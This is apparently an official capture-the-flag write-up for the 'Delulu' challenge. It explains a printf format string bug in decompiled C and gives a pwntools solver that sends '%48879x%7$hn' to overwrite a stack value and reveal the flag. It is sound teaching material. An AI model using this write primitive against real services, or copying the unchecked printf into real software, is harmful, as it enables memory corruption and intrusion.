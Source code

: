 ![](assets/banner.png)



<img src="assets/htb.png" style="margin-left: 20px; zoom: 80%;" align=left />    	<font size="10">Delulu</font>

​		28<sup>th</sup> January 2024 / Document No. DYY.102.XX

​		Prepared By: w3th4nds

​		Challenge Author(s): w3th4nds

​		Difficulty: <font color=green>Very Easy</font>

​		Classification: Official

 



# Synopsis

Delulu is a very easy difficulty challenge that features `format string vulnerability`, overwriting a variable's value.

# Description

HALT! Recognition protocol initiated. Please present your face for scanning.

## Skills Required

- Basic C.

## Skills Learned

- `fmt bug`.

# Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./glibc/'
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ✅      | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Disables **code execution** on stack |
| **PIE**    | ✅      | Randomizes the **base address** of the binary |
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

All protections are enabled.

The program's interface 

![](assets/interface.png)

As we can see, the bug is already visible here. There is a `format string bug`, but we do not know how to exploit it yet.

### Disassembly

Starting with `main()`:

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  long local_48;
  long *local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_48 = 0x1337babe;
  local_40 = &local_48;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  read(0,&local_38,0x1f);
  printf("\n[!] Checking.. ");
  printf((char *)&local_38);
  if (local_48 == 0x1337beef) {
    delulu();
  }
  else {
    error("ALERT ALERT ALERT ALERT\n");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

As we noticed before, we can see the `fmt bug` here:

```c
printf((char *)&local_38);
```

Apart from that, we can see that there is a `delulu()` function that prints the flag.

```c
void delulu(void)

{
  ssize_t sVar1;
  long in_FS_OFFSET;
  char local_15;
  int local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_14 = open("./flag.txt",0);
  if (local_14 < 0) {
    perror("\nError opening flag.txt, please contact an Administrator.\n");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  printf("You managed to deceive the robot, here\'s your new identity: ");
  while( true ) {
    sVar1 = read(local_14,&local_15,1);
    if (sVar1 < 1) break;
    fputc((int)local_15,stdout);
  }
  close(local_14);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Our goal is to call this function. The only way to get to it, is by making `local_48 == 0x1337beef` . The problem is that we do not have a `buffer overflow` or any common way to change `local_48` value, which is `0x1337babe`.

```c
local_48 = 0x1337babe;
```

Luckily, we can abuse the `fmt vulnerability` to do so. First of all, we need to find at which index we see the `0x1337babe` value.

```console
The D-LuLu face identification robot will scan you shortly!

Try to deceive it by changing your ID.

>> %p %p %p %p %p %p %p %p %p

[!] Checking.. 0x7fff75f6abe0 (nil) 0x7f769c914887 0x10 0x7fffffff 0x1337babe 0x7fff75f6cd00 0x7025207025207025 0x2520702520702520

[-] ALERT ALERT ALERT ALERT
```

We see that the `6th` element is the value `0x133babe`, then a stack address and then our input. So, we need to change the last 2 bytes of `0x133babe` -> `0x1337beef` and we we will pass the comparison. We have to write `0xbeef` characters to the 7th element of the stack to achieve that.

# Solution

```python
#!/usr/bin/python3
from pwn import *
import warnings
import os
warnings.filterwarnings('ignore')
context.arch = 'amd64'
context.log_level = 'critical'

LOCAL = False

os.system('clear')

if LOCAL:
  print('Running solver locally..\n')
  r    = process('./delulu')
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)
  print(f'Running solver remotely at {IP} {PORT}\n')


def get_flag():
  pause(1)
  r.sendline('cat flag*')
  print(f'\nFlag --> {r.recvline_contains(b"HTB").strip().decode()}\n')

r.sendlineafter('>> ', '%48879x%7$hn')
r.recvuntil('HTB')
print(f'Flag --> HTB{r.recvline().strip().decode()}\n')
```

```console
Running solver remotely at 0.0.0.0 1337

Flag --> HTB{m45t3r_0f_d3c3pt10n}
```


